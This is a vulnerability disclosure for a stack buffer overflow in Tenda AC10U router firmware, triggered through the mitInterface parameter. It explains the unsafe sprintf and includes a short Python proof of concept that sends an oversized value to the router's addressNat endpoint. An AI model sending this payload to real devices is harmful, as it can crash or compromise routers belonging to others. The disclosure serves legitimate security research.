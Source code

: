 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the mitInterface parameter in the fromAddressNat function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "fromAddressNat" retrieves the parameter "mitInterface" using "websGetVar", the value of "mitInterface" is formatted using the sprintf function, concatenated with "%s;%s" strings, and stored in "list". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "list".

![1705405115582](image/fromAddressNat/1705405115582.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/addressNat'
payload = {
    "mitInterface": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
